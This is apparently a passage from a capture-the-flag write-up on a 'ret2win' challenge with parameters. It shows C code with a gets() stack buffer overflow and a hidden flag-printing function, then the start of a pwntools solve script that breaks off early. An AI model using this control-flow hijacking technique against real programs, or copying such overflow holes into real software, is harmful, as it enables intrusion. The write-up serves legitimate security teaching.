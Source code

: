 
Nothing will work though, that's because the `enter_cheatcode()` function looks like this.


```c
void enter_cheatcode()
{
    char code[16];

    printf("Enter your cheatcode:\n");
    gets(code);
    printf("Checking cheatcode: %s!\n", code);
}
```


Spot the buffer overflow? Yes, but no flag. Check out this other `cheat_mode` function though.


```c
void cheat_mode(long key1, long key2)
{
    if (key1 == 0x2323232323232323 && key2 == 0x4242424242424242)
    {
        printf("CHEAT MODE ACTIVATED!\n");
        printf("You now have access to secret developer tools...\n\n");

        FILE *file = fopen("flag.txt", "r");
        if (file == NULL)
        {
            printf("Error: Could not open flag.txt\n");
            return;
        }
        char flag[64];
        if (fgets(flag, sizeof(flag), file) != NULL)
        {
            printf("FLAG: %s\n", flag);
        }
        fclose(file);
    }
    else
    {
        printf("Unauthorized access detected! Returning to main menu...\n\n");
    }
}
```


There are no execution paths to this function, so we need to exploit the buffer overflow to redirect the program execution. However, we also need to ensure the correct `key1` and `key2` are provided. Essentially, we have a `ret2win` challenge with parameters. Here's a solve script I put together.

### solve.py


```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and navigate to the cheat code entry
    p = process(exe)
```